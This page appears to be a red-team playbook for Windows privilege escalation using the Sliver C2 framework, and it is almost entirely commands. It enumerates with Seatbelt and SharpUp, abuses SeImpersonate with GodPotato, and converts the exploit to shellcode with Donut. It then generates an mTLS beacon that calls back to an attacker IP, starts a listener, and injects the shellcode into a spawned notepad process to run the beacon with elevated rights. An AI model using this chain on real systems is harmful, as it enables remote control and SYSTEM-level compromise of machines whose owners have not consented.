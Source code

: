 ```yaml
---
description: >-
  Many of the below commands are built into slivers armory, please install the
  armory extensions
---
```


# Privilege Escalation

#### Enumeration

```
seatbelt -- -group=all
sharpup -- audit
```

#### SeImpersonate

[https://github.com/BeichenDream/GodPotato](https://github.com/BeichenDream/GodPotato)

```
execute-assembly /home/kali/GodPotato-NET4.exe -cmd "whoami"
```

Donut can be used to create shellcode out of a .NET assembly and pass it arguments

Setup donut with the following commands

```bash
git clone https://github.com/TheWover/donut
cd donut/
make -f Makefile
./donut 
```

Next create a mtls beacon

```bash
generate beacon --mtls 10.10.14.62:9001 -N mtls-beacon
```

upload the beacon

```bash
upload http-beacon.exe
```

start the listener

```bash
mtls --lhost <lhost> --lport 9001
```

{% code overflow="wrap" %}
```bash
./donut -i /home/kali/GodPotato-NET4.exe -a 2 -b 1 -p '-cmd c:\http-beacon.exe' -o /home/kali/potato.bin
```
{% endcode %}

Next, create a process to inject into

{% code overflow="wrap" %}
```bash
execute-assembly /home/kali/Rubeus.exe createnetonly /program:C:\\windows\\system32\\notepad.exe
```
{% endcode %}

Then execute the shellcode into that PID

```
execute-shellcode -p 5668 /home/kali/potato.bin
```
